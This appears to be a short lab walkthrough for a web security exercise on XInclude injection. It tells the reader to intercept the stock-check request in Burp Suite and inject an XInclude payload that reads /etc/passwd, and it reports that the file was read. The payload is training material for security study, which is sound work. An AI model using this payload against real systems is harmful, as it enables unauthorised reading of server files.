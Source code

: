 # Lab: Exploiting XInclude to retrieve files #

# Lab Description #

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/db0d68e9-16bb-47e0-b5ae-900facb74f8e)

> Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/cecd3bee-3310-4f97-84f3-a210c5686dcf)

> We have intercepted the request now we add the payload
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/d6238699-8645-44b0-a27d-6c2d1eebee3e)

> So we where able to read the content of the etc/passwd file

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/5bf3d821-5508-42e1-911a-1ad932d0dea6)
